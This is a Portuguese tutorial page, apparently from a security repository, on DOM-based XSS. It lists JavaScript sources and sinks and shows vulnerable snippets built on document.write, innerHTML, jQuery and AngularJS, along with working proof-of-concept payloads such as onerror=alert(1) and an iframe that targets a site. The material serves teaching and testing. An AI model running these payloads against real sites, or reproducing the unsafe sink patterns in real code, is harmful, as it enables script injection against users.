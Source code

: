 ## Sources
É uma propriedade do Javascript que aceita/recebe input de dados. 
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

## Sink
É uma função do Javascript ou um objeto DOM. A vulnerabilidade DOM ocorre quando um input é enviado do Source para o Sink e é executado de forma insegura. 
```
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse()
element.setAttribute()
RegExp()
```
## DOM XSS 
###Exemplo
```
+ URL com o parâmetro Search 
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é armazenado na função document.write (Sink) e processado pela função window.location.search (Sink)
+ Payload: ```"><svg onload=alert(1)>```
```
<section class=search>
   <form action=/ method=GET>
        <input type=text placeholder='Search the blog' name=search>
             <button type=submit class=button>Search</button>
   </form>
</section>
<script>
   function trackSearch(query) {

//O valor inserido no parâmetro Search é armazenado na função document.wirte
   document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
//O valor de Search é processado pela função window.location.search
   var query = (new URLSearchParams(window.location.search)).get('search');
   if(query) {
      trackSearch(query);
   }
</script>
```
### Exemplo com innerHTML
```
+ URL com o parâmetro Search
https://exemplo.com.br/?search=abcd
```
+ Javascript dentro do HTML
+ O payload é capturado pelo método innerHTML e processado pela função window.location.search
+ Payload: ```<img src=1 onerror=alert(1)>```
```
<script>
   function doSearchQuery(query) {
   document.getElementById('searchMessage').innerHTML = query;
}
   var query = (new URLSearchParams(window.location.search)).get('search');
       if(query) {
               doSearchQuery(query);
}
</script>
```
### Exemplo com botão "Voltar"
```
+ URL com o parâmetro returnPath
https://exemplo.com.br/feedback?returnPath=/
```
+ jQuery usa o parâmetro attr() para processar o valor do parâmetro returnPath
```
<script>
   $(function() {
      $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
 });
 </script>
```
### Exemplo com selector $() do jQuery
+ Adicione a url do site-alvo no código disponível [dom_xss_jquery.html](https://github.com/carineconstantino/hackingbr/blob/main/Resources/DOM-Exploit/dom_xss_jquery.html)
+ Ao funcionar, será aberto a tela de impressão da página vulnerável (onerror=print())
+ Payload
```
<html>
   <head>
      <h1>Teste DOM-XSS Selector $() jQuery</h1>
</head>
<body>
   <iframe src="https://site-alvo.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
</body>
</html>
```
### Exemplo com AngularJS atributo ng-app
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na página dentro de aspas simples ''
```
+ Payload
```
{{$on.constructor('alert(1)')()}}
```
### Exemplo com valor refletido no json
+ URL com o parâmetro Search
```
https://exemplo.net/?search=abcd

O valor abcd é refletido na resposta do servidor dentro do formato json
```
+ O javascript que processa o valor inserido no parâemtro Searc usa a função eval()
+ Payload 
``` 
\"-alert(1)}//

\\"-alert(1)}//

<><img src=1 onerror=alert(1)>
```
